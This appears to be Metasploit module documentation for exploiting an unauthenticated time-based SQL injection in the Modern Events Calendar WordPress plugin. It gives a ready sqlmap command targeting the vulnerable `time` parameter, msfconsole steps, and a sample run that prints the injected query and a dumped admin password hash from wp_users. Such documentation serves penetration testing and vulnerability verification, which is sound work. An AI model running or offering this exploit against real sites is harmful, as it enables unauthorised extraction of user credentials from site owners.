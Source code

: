 ## Vulnerable Application

Modern Events Calendar plugin contains an unauthenticated timebased SQL injection in
versions before 6.1.5.  The `time` parameter is vulnerable to injection.

The plugin can be downloaded [here](https://downloads.wordpress.org/plugin/modern-events-calendar-lite.6.1.0.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://<IP>/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2' -p "time" --technique T -T wp_users -C user_login,user_pass --dump --dbms mysql
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_modern_events_calendar_sqli`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

## COUNT

If action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Modern Events Calendar 6.1.0 on Wordpress 5.7.5 on Ubuntu 20.04

```
resource (calendar.rb)> use auxiliary/scanner/http/wp_modern_events_calendar_sqli
resource (calendar.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (calendar.rb)> set verbose true
verbose => true
resource (calendar.rb)> run
[*] Checking /wp-content/plugins/modern-events-calendar-lite/readme.txt
[*] Found version 6.1.0 in the plugin
[+] Vulnerable version of Modern Events Calendar detected
[*] {SQLi} Executing (select group_concat(FMuxps) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) FMuxps from wp_users limit 1) tXKksULcj)
[*] {SQLi} Encoded to (select group_concat(FMuxps) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xde,0)),ifnull(user_pass,repeat(0x79,0))) as binary) FMuxps from wp_users limit 1) tXKksULcj)
[*] {SQLi} Time-based injection: expecting output of length 40
admin
$P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
